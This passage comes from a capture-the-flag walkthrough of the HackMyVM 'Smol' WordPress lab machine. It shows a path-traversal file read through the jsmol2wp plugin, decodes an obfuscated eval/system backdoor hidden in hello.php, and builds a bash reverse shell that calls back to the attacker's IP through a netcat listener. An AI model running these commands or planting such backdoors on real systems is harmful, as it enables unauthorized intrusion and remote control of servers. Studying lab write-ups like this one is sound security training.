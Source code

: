 We can see that the Hello Dolly plugin is installed let's read this file.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ curl -s 'http://www.smol.hmv/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php' 
<SNIP>
// This just echoes the chosen line, we'll position it later.
function hello_dolly() {
        eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
        
        $chosen = hello_dolly_get_lyric();
        $lang   = '';
        if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
                $lang = ' lang="en"';
        }
<SNIP>
```

Notice the use of the `eval()` function on a decoded base64 string. This function executes valid PHP code so let's decode the string to see what is executed.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ echo -n CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA= | base64 -d

 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }

┌──(pentester㉿kali)-[~/…/HackMyVM/Smol/Misc File]
└─$ printf "\143\155\x64"
cmd  
```

The system command executes the content of the `cmd` GET parameter. This is a backdoor in the WordPress instance and we can use it to obtain a foothold. Let's create a bash reverse shell script and host it on a Python server.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ echo 'bash -c "/bin/bash -i >& /dev/tcp/10.0.2.16/1234 0>&1"' > rev.sh

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ python3 -m http.server 80                                       
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now let's start our listener that will receive the shell.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Smol/Misc File]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```

With all this set, we can now download the shell on the target and execute it to obtain a foothold.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-27-smol/shell-1.png)